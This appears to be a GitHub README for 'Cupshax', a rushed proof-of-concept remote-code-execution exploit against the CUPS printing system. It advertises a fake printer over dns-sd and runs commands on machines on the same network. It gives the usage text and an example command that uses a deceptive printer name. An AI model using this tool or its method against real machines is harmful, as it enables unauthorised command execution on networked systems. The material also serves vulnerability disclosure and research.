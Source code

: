 # Cupshax

Quick proof of concept for the recent CUPS exploit. I was planning to clean it up a lot more, but the embargo was lifted a lot sooner than expected, so the code is a bit rushed.

[For all the technical details you should honestly just read Evilsocket's writeup](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/).

This exploit was written after spotting [this commit in the public OpenPrinting CUPS repo](https://github.com/OpenPrinting/cups/commit/8361420cbbfa2e729545c4c537c49fc6322c9631). There are probably cleaner injection points.

This PoC uses dns-sd printer discovery, so the target must be able to receive the broadcast message, i.e. be on the same network.

## Usage

The exploit uses `zeroconf` and `ippserver`, both can be installed via pip.

```
usage: cupshax.py [-h] [--name NAME] --ip IP [--command COMMAND] [--port PORT]

A script for executing commands remotely

options:
  -h, --help         show this help message and exit
  --name NAME        The name to use (default: RCE Printer)
  --ip IP            The IP address of the machine running this script
  --command COMMAND  The command to execute (default: 'touch /tmp/pwn')
  --port PORT        The port to connect on (default: 8631)

```

For example:
```bash
python cupshax.py --name "Print to PDF (Color)" \
                  --command "id>/tmp/pwn" \
                  --ip 10.0.0.3
```